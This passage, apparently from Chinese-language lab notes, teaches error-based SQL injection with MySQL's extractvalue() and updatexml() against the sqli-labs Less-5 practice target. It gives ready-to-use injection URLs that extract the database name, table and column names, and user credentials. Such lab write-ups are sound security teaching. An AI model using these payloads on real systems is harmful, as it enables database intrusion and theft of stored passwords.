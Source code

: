 **7.获取表内信息。**

```sql
http://192.168.37.148/sql/Less-5/?id=-1' and 1=extractvalue(1,concat(0x7e,(select substring(group_concat(username,0x7e,password),0,32) from users))) -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729142012695.png" alt="image-20220729142012695" style="zoom:50%;" />

### （3）updatexml()

```sql
select * from 数据库名 where id=1 and (updatexml(1,concat(0x7e,(select 表名()),0x7e),1));
```

updatexml()报错注入的原理和extractvalue()报错注入的原理相同，但是在函数的使用上有区别。

`updatexml(XML_document,XPATH_string,new_value)`包含三个参数：

- XML_document是string格式，为XML文档对象的名称，例如Doc
- XPATH_string是路径，XPATH格式的字符串
- new_value是string格式，替换查找到的符合条件的数据

**1.构造updatexml()函数语句，获取数据库名称**

```sql
http://192.168.37.148/sql/Less-5/?id=1' and 1=updatexml(1,concat(0x7e,(select database())),'1') -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729230556301.png" alt="image-20220729230556301" style="zoom:50%;" />

**2.获取security数据库下的所有表的表名**

```sql
http://192.168.37.148/sql/Less-5/?id=1' and 1=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),'1') -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729230804382.png" alt="image-20220729230804382" style="zoom:50%;" />

**3.获取users表内的所有列的列名**

注：updatexml报错注入仍然是只能回显32位字符，所以仍然要

```sql
http://192.168.37.148/sql/Less-5/?id=1' and 1=updatexml(1,concat(0x7e,(select substring(group_concat(column_name),40,32) from information_schema.columns where table_name='users')),'1') -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729231122486.png" alt="image-20220729231122486" style="zoom:50%;" />

**4.获取users表内的信息**

```sql
http://192.168.37.148/sql/Less-5/?id=1' and 1=updatexml(1,concat(0x7e,(select substring(group_concat(username,'-',password),1,32) from users)),'1') -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220729231438732.png" alt="image-20220729231438732" style="zoom:50%;" />
